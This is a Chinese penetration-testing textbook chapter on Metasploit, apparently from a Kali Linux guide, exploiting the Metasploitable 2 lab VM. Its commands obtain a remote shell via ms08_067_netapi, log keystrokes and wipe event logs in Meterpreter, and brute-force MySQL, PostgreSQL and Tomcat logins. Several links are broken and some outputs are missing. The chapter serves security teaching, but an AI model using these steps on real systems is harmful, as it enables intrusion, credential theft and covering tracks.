


# 第六章　漏洞利用

漏洞利用是获得系统控制权限的重要途径。用户从目标系统中找到容易攻击的漏洞，然后利用该漏洞获取权限，从而实现对目标系统的控制。为了便于用户练习，本章将介绍 Metasploit 发布的 Metasploitable 2。用户可以将其作为练习用的 Linux 操作系统。本章将利用 Metasploitable 系统上存在的漏洞，介绍各种渗透攻击，如 MySQL 数据库、PostgreSQL 数据库及 Tomcat 服务等，其主要知识点如下：

*   Metasploitable 操作系统；
*   Metasploit 基础；
*   控制 Meterpreter；
*   渗透攻击应用；
*   免杀 Payload 生成工具 Veil。

# 6.1 Metasploitable 操作系统

## 6.1 Metasploitable 操作系统

Metasploitable 是一款基于 Ubuntu Linux 的操作系统。该系统是一个虚拟机文件，从[`sourceforge.net/projects/metasploitable/files/Metasploitable2/网站下载解压之后可以直接使用，无需安装。由于基于 Ubuntu，所以 Metasploitable 使用起来十分得心应手。Metasploitable 就是用来作为攻击用的靶机，所以它存在大量未打补丁漏洞，并且开放了无数高危端口。本节将介绍安 Metasploitable 虚拟机的使用。`](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/网站下载解压之后可以直接使用，无需安装。由于基于 Ubuntu，所以 Metasploitable 使用起来十分得心应手。Metasploitable 就是用来作为攻击用的靶机，所以它存在大量未打补丁漏洞，并且开放了无数高危端口。本节将介绍安 Metasploitable 虚拟机的使用。)

安装 Metasploitable 2 的具体操作步骤如下所示。

（1）下载 Metasploitables 2，其文件名为 Metasploitable-Linux-2.0.0.zip。

（2）将下载的文件解压到本地磁盘。

（3）打开 VMwareWorkstation，并依次选择“文件”|“打开”命令，将显示如图 6.1 所示的界面。


图 6.1 选择 Metasploitable 2 启动

（4）在该界面选择 Metasploitable.vmx，然后单击“打开”按钮，将显示如图 6.2 所示的界面。


图 6.2 安装的 Metasploitable 系统

（5）在该界面单击“开启此虚拟机”按钮或按钮，启动 Metasploitable 系统。

# 6.2 Metasploit 基础

## 6.2 Metasploit 基础

Metasploit 是一款开源的安全漏洞检测工具。它可以帮助用户识别安全问题，验证漏洞的缓解措施，并对某些软件进行安全性评估，提供真正的安全风险情报。当用户第一次接触 Metasploit 渗透测试框架软件（MSF）时，可能会被它提供如此多的接口、选项、变量和模块所震撼，而感觉无所适从。Metasploit 软件为它的基础功能提供了多个用户接口，包括终端、命令行和图形化界面等。本节将介绍 Metasploit 下各种接口的使用方法。

### 6.2.1 Metasploit 的图形管理工具 Armitage

Armitage 组件是 Metasploit 框架中一个完全交互式的图形化用户接口，由 Raphael Mudge 所开发。Armitage 工具包含 Metasploit 控制台，通过使用其标签特性，用户可以看到多个 Metasploit 控制台或多个 Meterpreter 会话。

使用 Armitage 工具。具体操作步骤如下所示。

（1）启动 Metasploit 服务。在使用 Armitage 工具前，必须将 Metasploit 服务启动。否则，无法运行 Armitage 工具。因为 Armitage 需要连接到 Metasploit 服务，才可以启动。在 Kali 桌面依次选择“应用程序”|Kali Linux|“系统服务”|Metasploit|community/pro start 命令启动 Metasploit 服务，将输出如下所示的信息：

```
[ ok ] Starting PostgreSQL 9.1 database server: main.
Configuring Metasploit…
Creating metasploit database user 'msf3'…
Creating metasploit database 'msf3'…
insserv: warning: current start runlevel(s) (empty) of script `metasploit' overrides LSB defaults (2 3 4 5).
insserv: warning: current stop runlevel(s) (0 1 2 3 4 5 6) of script `metasploit' overrides LSB defaults (0 1 6). 
```

从输出的信息中可以看到 PostgreSQL 9.1 数据库服务已启动，并创建了数据库用户和数据库。

（2）启动 Armitage 工具。在 Kali 桌面依次选择“应用程序”|Kali Linux|“漏洞利用工具集”|“网络漏洞利用”|armitage 命令，如图 6.3 所示。或者在终端运行 armitage 命令启动 Armitage 工具，如下所示：

```
root@kali:~# armitage 
```


图 6.3 启动 armitage 界面

（3）启动 armitage 工具后，将显示如图 6.4 所示的界面。


图 6.4 连接 Metasploit 界面

（4）在该界面显示了连接 Metasploit 服务的基本信息。在该界面单击 Connect 按钮，将显示如图 6.5 所示的界面。


图 6.5 启动 Metasploit

（5）该界面提示是否要启动 Metasploit 的 RPC 服务。单击“是(Y)”按钮，将显示如图 6.6 所示的界面。


图 6.6 连接 Metasploit 界面

（6）该界面显示了连接 Metasploit 的一个进度。当成功连接到 Metasploit 服务的话，将显示如图 6.7 所示的界面。



图 6.7 Armitage 初始界面

（7）该界面共有三个部分，这里把它们分别标记为 A、B 和 C。下面分别介绍这三部分。

*   A：这部分显示的是预配置模块。用户可以在模块列表中使用空格键搜索提供的模块。
*   B：这部分显示活跃的目标系统，用户能执行利用漏洞攻击。
*   C：这部分显示多个 Metasploit 标签。这样，就可以运行多个 Meterpreter 命令或控制台会话，并且同时显示。

【实例 6-1】演示使用 Armitage 工具做渗透测试。具体操作步骤如下所示。

（1）启动 Armitage 工具，界面如图 6.7 所示。从该界面可以看到默认没有扫描到任何主机。这里通过扫描，找到本网络中的所有主机。

（2）在 Armitage 工具的菜单栏中依次选择 Hosts|Nmap Scan|Quick Scan 命令，将显示如图 6.8 所示的界面。


图 6.8 输入扫描范围

（3）在该界面输入要扫描的网络范围，这里输入的网络范围是 192.168.41.0/24。然后单击“确定”按钮，将开始扫描。扫描完成后，将显示如图 6.9 所示的界面。


图 6.9 扫描结果

（4）从该界面可以看到，弹出了一个扫描完成对话框，此时单击“确定”按钮即可。并且在目标系统的窗口中，显示了三台主机。这三台主机就是扫描到的主机。从扫描完成的对话框中可以看到提示建议选择 Attacks|Find Attacks 命令，将可以渗透攻击目标系统。

（5）在菜单栏中依次选择 Attacks|Find Attacks 命令，运行完后将显示如图 6.10 所示的界面。


图 6.10 消息

（6）从该界面可以看到攻击分析完成，并且右击扫描到的主机将会看到有一个 Attack 菜单，如图 6.11 所示。


图 6.11 Attack 菜单

（7）从该界面可以看到在目标主机的菜单中出现了 Attack 选项，在该菜单中共有五个选项。在没有运行 Find Attacks 命令前，只要 Services、Scan 和 Host 三个选项。这里扫描到的主机屏幕都是黑色，这是因为还没有识别出操作系统的类型。此时可以在菜单栏中依次选择 Hosts|Nmap Scan|Quick Scan（OS detect）命令，扫描操作系统类型。扫描完成后，将显示操作系统的默认图标。

（8）扫描操作系统。扫描完成后，将显示如图 6.12 所示的界面。


图 6.12 扫描的操作系统

（9）从该界面可以看到扫描到的目标主机，屏幕发生了变化。此时就可以选择目标，进行渗透攻击。

（10）此时，可以在预配置模块窗口选择模块渗透攻击目标系统，如选择渗透攻击浏览器模块。在预配置模块中依次选择 exploit|windows|browser|adobe_cooltype_sing 模块，双击 adobe_cooltype_sing 模块，将显示如图 6.13 所示的界面。


图 6.13 模块配置选项

（11）该界面显示了 adobe_cooltype_sing 模块的默认配置选项信息。这些选项的默认值，可以通过双击默认值修改。设置完成后，单击 Launch 按钮，在 Armitage 窗口将显示如图 6.14 所示的界面。


图 6.14 渗透攻击结果

（12）从该界面可以看到，使用 adobe_cooltype_sing 模块渗透攻击的过程。从最后的信息中可以看到，渗透攻击成功运行。以后某台主机访问[`192.168.41.235:8080/JEdB2oma7AEGV7G 链接时，将会在目标主机上创建一个名为 JEdB2oma7AEGV7G 的 PDF 文件。只要有目标主机访问该链接，Armitage 控制台会话中将会显示访问的主机，如图 6.15 所示。`](http://192.168.41.235:8080/JEdB2oma7AEGV7G 链接时，将会在目标主机上创建一个名为 JEdB2oma7AEGV7G 的 PDF 文件。只要有目标主机访问该链接，Armitage 控制台会话中将会显示访问的主机，如图 6.15 所示。)


图 6.15 攻击信息

（13）从该界面可以看到主机 192.168.41.146，访问了[`192.168.41.235:8080/JEdB2oma7AEGV7G 链接。并且，可以看到在主机 192.168.41.146 上创建了 PDF 文件。`](http://192.168.41.235:8080/JEdB2oma7AEGV7G 链接。并且，可以看到在主机 192.168.41.146 上创建了 PDF 文件。)

### 6.2.2 控制 Metasploit 终端（MSFCONSOLE）

MSF 终端（MSFCONSOLE）是目前 Metasploit 框架最为流行的用户接口，而且也是非常灵活的。因为 MSF 终端是 Metasploit 框架中最灵活、功能最丰富及支持最好的工具之一。MSFCONSOLE 主要用于管理 Metasploit 数据库，管理会话、配置并启动 Metasploit 模块。本质上来说，就是为了利用漏洞，MSFCONSOLE 将获取用户连接到主机的信息，以至于用户能启动渗透攻击目标系统。本小节将介绍 Metasploit 终端（MSFCONSOLE）。

当使用 Metasploit 控制台时，用户将使用一些通用的命令，如下所示。

*   help：该命令允许用户查看执行命令的帮助信息。
*   use module：该命令允许用户加载选择的模块。
*   set optionname module：该命令允许用户为模块设置不同的选项。
*   run：该命令用来启动一个非渗透攻击模块。
*   search module：该命令允许用户搜索一个特定的模块。
*   exit：该命令允许用户退出 MSFCONSOLE。

MSFCONSOLE 漏洞利用的具体操作步骤如下所示。

（1）在终端启动 MSFCONSOLE，执行命令如下所示：

```
root@kali:~# msfconsole 
```

执行以上命令后，输出信息如下所示：


输出的信息出现 msf>提示符，表示登录 MSFCONSOLE 成功。此时就可以在该命令行运行其他任何命令。

（2）使用 search 命令搜索所有有效的 Linux 模块。对于模块用户每次想要执行一个动作，这是一个很好的主意。主要原因是 Metasploit 各种版本之间，模块的路径可能有改变。执行命令如下所示：

```
msf> search linux 
```

执行以上命令后，输出信息如下所示：


输出的信息就是 Metasploit 中所有有效的模块。输出的信息显示为 4 列，分别表示模块名称、公开时间、等级及描述。以上输出的内容较多，但是由于篇幅的原因，这里只列出了一少部分内容，省略的内容使用省略号（……）代替。

（3）使用 John Ripper linux 密码破解模块。执行命令如下所示：

```
msf > use auxiliary/analyze/jtr_linux
msf auxiliary(jtr_linux) > 
```

输出的信息表示已加载 jtr_linux 模块。

（4）查看模块的有效选项。执行命令如下所示：


从输出结果中可以看到 jtr_linux 模块有 5 个有效的选项，如 Crypt、JOHN_BASE、JOHE_PATH、Munge 和 Wordlist。在输出的信息中，对这 5 个选项分别有详细的描述。

（5）现在用户有一个选项的列表，这些选项为运行 jtr_linux 模块。用户能设置独特的选项，使用 set 命令。设置 JOHN_PATH 选项，如下所示：

```
msf auxiliary(jtr_linux) > set JOHN_PATH /usr/share/metasploit- framework/data/john/ wordlists/password.lst
JOHN_PATH => /usr/share/metasploit-framework/data/john/wordlists/ password.lst 
```

（6）现在运行渗透攻击，执行命令如下所示：

```
msf auxiliary(jtr_linux) > exploit 
```

### 6.2.3 控制 Metasploit 命令行接口（MSFCLI）

本小节将介绍 Metasploit 命令行接口（MSFCLI）。为了完成 Metasploit 的攻击任务，需要使用一个接口。MSFCLI 刚好实现这个功能。为了学习 Metasploit 或测试/写一个新的渗透攻击，MSFCLI 是一个很好的接口。

MSF 命令行和 MSF 终端为 Metasploit 框架访问提供了两种截然不同的途径，MSF 终端以一种用户友好的模式来提供交互方式，用于访问软件所有的功能特性，而 MSFCLI 则主要考虑脚本处理和与其他命令行工具的互操作性。MSFCLI 常用的命令如下所示。

*   msfcli：加载所有有效渗透攻击 MSFCLI 的列表。
*   msfcli -h：查看 MSFCLI 帮助文档。
*   msfcli [PATH TO EXPLOIT] [options = value]：启动渗透攻击的语法。

MSF 命令行 MSFCLI 的使用如下所示。

（1）启动 MSF 命令行（MSFCLI）。启动的过程需要一点时间，请耐心等待，这取决于用户系统的速度。还要注意，随着 MSFCLI 负载，可利用的有效列表将显示出来。执行命令如下所示：

```
root@kali:~# msfcli
[*] Please wait while we load the module tree… 
```

（2）查看 MSFCLI 帮助文档。执行命令如下所示：


以上输出的信息显示了 msfcli 命令的帮助文档。通过查看这些帮助文档，可以了解一个模块的使用说明和使用模式列表。

（3）为了证明前面所说的帮助文档信息。这里将选择 A 选项，显示模块的高级选项。执行命令如下所示：


以上信息显示了 xmas 模块的高级选项。输出信息中对每个选项都有 3 部分介绍，包括名称、当前设置及描述信息。

（4）此外，用户可以使用 S 模式列出当前模块的一个摘要信息。这个摘要模式是查看所有有效选项的一个很好的方法。大部分选项是可选的。但是为了使用户设置目标系统或端口，通常有些选项是必须的。启动摘要模式渗透攻击，执行命令如下所示：


以上信息为 xmas 模块的摘要信息。这些信息包括 xmas 模块的名称、位置、许可证、级别、提供商、基本选项及描述等。

（5）为显示渗透攻击有效的选项列表，可以使用 O 模式。该模式是用来配置渗透攻击模块的，每个渗透攻击模块有一套不同的设置选项，也可能没有。所有必须的选项必须是渗透攻击允许执行之前设置。从下面的输出信息中，可以看到许多必须的选项默认已设置。如果是这样，就不需要更新这些选项值了，除非用户想要修改它。执行命令如下所示：


输出的信息显示了 xmas 模块需要的配置选项，如 BATCHSIZE、PORTS、RHOSTS、SNAPLEN、THREADS 和 TIMEOUT。

（6）用户可以使用 E 模式运行渗透攻击测试。执行命令如下所示：

```
root@kali:/usr/bin# msfcli auxiliary/scanner/portscan/xmas E 
```

【实例 6-2】使用 MSFCLI 演示渗透攻击，这里以 ms08_067_netapi 模块为例。具体操作步骤如下所示。

（1）查看 ms08_067_netapi 模块的配置参数选项。执行命令如下所示：


从输出的信息中可以看到该模块有三个配置选项，分别是 RHOST、RPORT 和 SMBPIPE。

（2）查看 ms08_067_netapi 模块中可用的攻击载荷。执行命令如下所示：


输出的信息显示了 ms08_067_netapi 模块可用的攻击载荷。该模块可以攻击的载荷很多，由于章节的原因，中间部分使用省略号（……）取代了。

（3）这里选择使用 shell_bind/tcp 攻击载荷进行渗透测试。如下所示：

```
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.41.146 PAYLOAD= windows/shell/bind_tcp E
[*] Initializing modules…
RHOST => 192.168.41.146
PAYLOAD => windows/shell/bind_tcp
[*] Started bind handler
[*] Automatically detecting the target…
[*] Fingerprint: Windows XP - Service Pack 0 / 1 - lang:Chinese - Traditional
[*] Selected Target: Windows XP SP0/SP1 Universal
[*] Attempting to trigger the vulnerability…
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.41.146
[*] Command shell session 1 opened (192.168.41.156:60335 -> 192.168.41.146:4444) at 2014-06-06 10:12:06 +0800
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\WINDOWS\system32> 
```

从输出的信息中，可以看到成功的从远程系统上拿到了一个 Windows 命令行的 Shell。这表示渗透攻击成功。

# 6.3 控制 Meterpreter

## 6.3 控制 Meterpreter

Meterpreter 是 Metasploit 框架中的一个杀手锏，通常作为利用漏洞后的攻击载荷所使用，攻击载荷在触发漏洞后能够返回给用户一个控制通道。当使用 Armitage、MSFCLI 或 MSFCONSOLE 获取到目标系统上的一个 Meterpreter 连接时，用户必须使用 Meterpreter 传递攻击载荷。MSFCONSOLE 用于管理用户的会话，而 Meterpreter 则是攻击载荷和渗透攻击交互。本节将介绍 Meterpreter 的使用。

Meterpreter 包括的一些常见命令如下所示。

*   help：查看帮助信息。
*   background：允许用户在后台 Meterpreter 会话。
*   download：允许用户从入侵主机上下载文件。
*   upload：允许用户上传文件到入侵主机。
*   execute：允许用户在入侵主机上执行命令。
*   shell：允许用户在入侵主机上（仅是 Windows 主机）运行 Windows shell 命令。
*   session -i：允许用户切换会话。

通过打开 MSFCONSOLE 实现控制。具体操作步骤如下所示。

（1）在 MSFCONSOLE 上启动一个活跃的会话。

（2）通过利用系统的用户启动登录键盘输入。执行命令如下所示：

```
meterpreter > keyscan_start
Starting the keystroke sniffer… 
```

从输出的信息中可以看到键盘输入嗅探已启动。

（3）捕获漏洞系统用户的键盘输入。执行命令如下所示：

```
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Return> www.baidu.com <Return> aaaa <Return> <Back> <Back> <Back> <Back> <Back> 
```

以上输出的信息表示在漏洞系统中用户输入了 www.baidu.com，aaaa 及回车键、退出键。

（4）停止捕获漏洞系统用户的键盘输入。执行命令如下所示：

```
meterpreter > keyscan_stop
Stopping the keystroke sniffer… 
```

从输出的信息中可以看到键盘输入嗅探已停止。

（5）删除漏洞系统上的一个文件。执行命令如下所示：

```
meterpreter > del exploited.docx 
```

（6）清除漏洞系统上的事件日志。执行命令如下所示：

```
meterpreter > clearev
[*] Wiping 57 records from Application…
[*] Wiping 107 records from System…
[*] Wiping 0 records from Security… 
```

（7）查看正在运行的进程列表。执行命令如下所示：


输出的信息显示了漏洞系统中正在运行的所有进程，包括进程的 ID 号、进程名、系统架构、用户及运行程序的路径等。

（8）使用 kill 杀死漏洞系统中指定的进程号。执行命令如下所示：

```
meterpreter > kill 2040
Killing: 2040 
```

（9）尝试从漏洞系统窃取一个假冒令牌。执行命令如下所示：

```
meterpreter > steal_token 
```

注意：使用不同的模块，Meterpreter 中的命令是不同的。有些模块中，可能不存在以上命令。

# 6.4 渗透攻击应用

## 6.4 渗透攻击应用

前面依次介绍了 Armitage、MSFCONSOLE 和 MSFCLI 接口的概念及使用。本节将介绍使用 MSFCONSOLE 工具渗透攻击 MySQL 数据库服务、PostgreSQL 数据库服务、Tomcat 服务和 PDF 文件等。

### 6.4.1 渗透攻击 MySQL 数据库服务

MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。在 Metasploitable 系统中，MySQL 的身份认证存在漏洞。该漏洞有可能会让潜在的攻击者不必提供正确的身份证书便可访问 MySQL 数据库。所以，用户可以利用该漏洞，对 MySQL 服务进行渗透攻击。恰好 Metasploit 框架提供了一套针对 MySQL 数据库的辅助模块，可以帮助用户更有效的进行渗透测试。本小节将介绍使用 Metasploit 的 MySQL 扫描模块渗透攻击 MySQL 数据库服务。渗透攻击 Metasploitable 系统中 MySQL 数据库服务的具体操作步骤如下所示。

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）扫描所有有效的 MySQL 模块。执行命令如下所示：


输出的信息显示了 MySQL 上可用的模块。从这些模块中，选择渗透攻击的模块进行攻击。

（3）这里使用 MySQL 扫描模块。执行命令如下所示：

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > 
```

（4）显示模块的有效选项。执行命令如下所示：



以上的信息显示了在 mysql_login 模块下可设置的选项。从输出的结果中可以看到显示了四列信息，分别是选项名称、当前设置、需求及描述。其中 Required 为 yes 的选项是必须配置的，反之可以不用配置。对于选项的作用，Description 都有相应的介绍。

（5）为渗透攻击指定目标系统、用户文件和密码文件的位置。执行命令如下所示：

```
msf auxiliary(mysql_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142
msf auxiliary(mysql_login) > set user_file /root/Desktop/usernames.txt
user_file => /root/Desktop/usernames.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/passwords.txt
pass_file => /root/Desktop/passwords.txt 
```

以上信息设置了目标系统的地址，用户文件和密码文件的路径。

（6）启动渗透攻击。执行命令如下所示：

```
msf auxiliary(mysql_login) > exploit
[deprecated] I18n.enforce_available_locales will default to true in the future. If you really want to skip validation of your locale you can set I18n.enforce_available_locales = false to avoid this message.
[*] 192.168.41.142:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 192.168.41.142:3306 MYSQL - [01/40] - Trying username:'sa' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [02/40] - Trying username:'root' with password:"
[+] 192.168.41.142:3306 - SUCCESSFUL LOGIN 'root' : "
[*] 192.168.41.142:3306 MYSQL - [03/40] - Trying username:'bob' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [04/40] - Trying username:'ftp' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [05/40] - Trying username:'apache' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [06/40] - Trying username:'named' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [07/40] - Trying username:'sa' with password:'sa'
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [35/40] - Trying username:'named' with password:'password'
[-] Access denied
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

输出的信息是渗透攻击的一个过程，尝试使用指定的用户名/密码文件中的用户名和密码连接 MySQL 服务器。在渗透攻击过程中，Metasploit 会尝试输入用户名和密码文件包含的用户名和密码组合。从输出的信息中可以看到，已测试出 MySQL 数据库服务器的用户名和密码分别是 root 和 password。

### 6.4.2 渗透攻击 PostgreSQL 数据库服务

PostgreSQL 是一个自由的对象——关系数据库服务（数据库管理系统）。它在灵活的 BSD-风格许可证下发行。当第一次启动 msfconsole 时，Kali 中的 Metasploit 会创建名称为 msf3 的 PostgreSQL 数据库，并生成保存渗透测试数据所需的数据表。然后，使用名称为 msf3 的用户，自动连接到 msf3 数据库。所以，攻击者可以利用这样的漏洞自动的连接到 PostgreSQL 数据库。本小节将介绍使用 Metasploit 的 PostgreSQL 扫描模块渗透攻击 PostgreSQL 数据库服务。渗透攻击 PostgreSQL 数据库服务的具体操作步骤如下所示。

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）搜索所有有效的 PostgreSQL 模块。执行命令如下所示：


以上信息显示了 PostgreSQL 所有相关的模块。此时可以选择相应的模块进行攻击。

（3）使用 PostgreSQL 扫描模块。执行命令如下所示：

```
msf > use auxiliary/scanner/postgres/postgres_login 
```

（4）查看 PostgreSQL 模块的所有选项。执行命令如下所示：


以上信息显示了 postgres_login 模块中可配置的选项。根据用户的攻击情况，选择相应选项进行配置。

（5）使用 RHOST 选项设置目标系统（本例中为 Metasploitable 2）。执行命令如下所示：

```
msf auxiliary(postgres_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142 
```

（6）指定用户名文件。执行命令如下所示：

```
msf auxiliary(postgres_login) > set user_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_user.txt
user_file => /usr/share/metasploit-framework/data/wordlists /postgres_default_user.txt 
```

（7）指定密码文件。执行命令如下所示：

```
msf auxiliary(postgres_login) > set pass_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_pass.txt
pass_file => /usr/share/metasploit-framework/data/wordlists/ postgres_default_pass.txt 
```

（8）运行渗透攻击。执行命令如下所示：

```
msf auxiliary(postgres_login) > exploit
 [*] 192.168.41.142:5432 Postgres - [01/21] - Trying username:'postgres' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'postgres':"
[-] 192.168.41.142:5432 Postgres - [01/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [02/21] - Trying username:" with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: ":"
[-] 192.168.41.142:5432 Postgres - [02/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [03/21] - Trying username:'scott' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':"
[-] 192.168.41.142:5432 Postgres - [03/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [04/21] - Trying username:'admin' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':"
[-] 192.168.41.142:5432 Postgres - [04/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [05/21] - Trying username:'postgres' with password:'postgres' on database 'template1'
[+] 192.168.41.142:5432 Postgres - Logged in to 'template1' with 'postgres':'postgres'
[+] 192.168.41.142:5432 Postgres - Success: postgres:postgres (Database 'template1' succeeded.)
[*] 192.168.41.142:5432 Postgres - Disconnected
[*] 192.168.41.142:5432 Postgres - [06/21] - Trying username:'scott' with password:'scott' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'scott'
[-] 192.168.41.142:5432 Postgres - [06/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [07/21] - Trying username:'admin' with password:'admin' on database 'template1'
……
 [-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'admin'
[-] 192.168.41.142:5432 Postgres - [16/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [17/21] - Trying username:'admin' with password:'tiger' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'tiger'
[-] 192.168.41.142:5432 Postgres - [17/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [18/21] - Trying username:'admin' with password:'postgres' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'postgres'
[-] 192.168.41.142:5432 Postgres - [18/21] - Username/Password failed.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

以上输出的信息是 PostgreSQL 渗透攻击的一个过程。测试到 PostgreSQL 数据库服务的用户名和密码分别是 Postgres 和 Postgres。

### 6.4.3 渗透攻击 Tomcat 服务

Tomcat 服务器是一个免费的开放源代码的 Web 应用服务器。它可以运行在 Linux 和 Windows 等多个平台上。由于其性能稳定、扩展性好和免费等特点深受广大用户的喜爱。目前，互联网上绝大多数 Java Web 等应用都运行在 Tomcat 服务器上。Tomcat 默认存在一个管理后台，默认的管理地址是[`IP 或域名:端口/manager/html。通过此后台，可以在不重启 Tomcat 服务的情况下方便地部署、启动、停止或卸载 Web 应用。但是如果配置不当的话就存在很大的安全隐患。攻击者利用这个漏洞，可以非常快速、轻松地入侵一台服务器。本小节将介绍渗透攻击 Tomcat 服务的方法。渗透攻击 Tomcat 服务的具体操作步骤如下所示。`](http://IP 或域名:端口/manager/html。通过此后台，可以在不重启 Tomcat 服务的情况下方便地部署、启动、停止或卸载 Web 应用。但是如果配置不当的话就存在很大的安全隐患。攻击者利用这个漏洞，可以非常快速、轻松地入侵一台服务器。本小节将介绍渗透攻击 Tomcat 服务的方法。渗透攻击 Tomcat 服务的具体操作步骤如下所示。)

（1）启动 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole 
```

（2）搜索所有有效的 Tomcat 模块。执行命令如下所示：


以上输出的信息显示了 Tomcat 服务的可用模块。现在用户可以选择易攻击的模块，进行渗透攻击。

（3）使用 Tomcat 管理登录模块进行渗透攻击。执行命令如下所示：

```
msf auxiliary(postgres_login) > use auxiliary/scanner/http/ tomcat_mgr_login 
```

（4）查看 tomcat_mgr_login 模块的有效选项。执行命令如下所示：


以上输出的信息显示了 tomcat_mgr_login 模块中有效的选项。此时用户可以选择相应的模块，进行配置。

（5）设置 Pass_File 选项。执行命令如下所示：

```
msf auxiliary(tomcat_mgr_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt 
```

以上输出的信息显示了指定密码文件的绝对路径。

（6）设置 User_File 选项。执行命令如下所示：

```
msf auxiliary(tomcat_mgr_login) > set USER_FILE /usr/share/metasploit- framework/data/wordlists/tomcat_mgr_default_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_users.txt 
```

以上输出的信息显示了指定用户名文件的决定路径。

（7）使用 RHOSTS 选项设置目标系统（本例使用的是 Metasploitable 2）。执行命令如下所示：

```
msf auxiliary(tomcat_mgr_login) > set RHOSTS 192.168.41.142
RHOSTS => 192.168.41.142 
```

输出的信息表示指定攻击的目标系统地址为 192.168.41.142。

（8）设置 RPORT 选项为 8180。执行命令如下所示：

```
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180 
```

以上信息设置了攻击目标系统的端口号为 8180。 （9）运行渗透攻击。执行命令如下所示：

```
msf > exploit
[*] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - Trying username:" with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as "
[*] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - Trying username:'admin' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - Trying username:'xampp' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'xampp'
[*] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - Trying username:'admin' with password:'admin'
[-] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - Trying username:'manager' with password:'manager'
[-] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'manager'
[*] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - Trying username:'role1' with password:'role1'
